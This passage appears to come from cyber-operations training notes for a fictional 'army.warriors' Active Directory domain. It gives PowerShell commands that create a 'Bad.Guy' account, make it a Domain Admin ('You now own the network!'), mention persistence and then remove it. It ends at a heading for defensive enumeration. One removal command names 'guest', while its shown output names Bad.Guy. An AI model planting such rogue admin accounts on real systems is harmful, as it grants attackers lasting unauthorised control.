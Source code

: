**Create a new user**
```
New-ADUser -Name "Bad.Guy" -AccountPassword (ConvertTo-SecureString -AsPlaintext -String "PassWord12345!!" -Force) -path "OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors"
   -Nothing returned if successful execution-
```

**Enable the user**
```
Enable-ADAccount -Identity "Bad.Guy"
   -Nothing returned if successful execution-
```

**Add the user to an Admin Group**
```
Add-ADGroupMember -Identity "Domain Admins" -Members "Bad.Guy"
   -Nothing returned if successful execution-
```

***You now own the network!***

***When we are done, if we aren’t maintaining persistence, we need to delete the new account or remove it from its group and disable it.***

**Remove User**
```
PS> Remove-ADUser -Identity "Bad.Guy"

Confirm
Are you sure you want to perform this action?
Performing the operation "Remove" on target "CN=Bad.Guy,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors".
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "Y"): Y
```
**Remove From Group**
```
PS> Remove-ADGroupMember -Identity "Domain Admins" -Members guest

Confirm
Are you sure you want to perform this action?
Performing the operation "Remove" on target "CN=Bad.Guy,OU=3RD PLT,OU=CCO,OU=3RDBN,OU=WARRIORS,DC=army,DC=warriors".
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "Y"): Y
```
**Disable Guest account**
```
PS> Disable-AdAccount -Identity Guest
   -Nothing returned if successful execution-
```

## Enumerate Users from a DCO perspective

### Scenario: You are an admin and need to periodically check what accounts have 'Enterprise' and 'Domain' level access
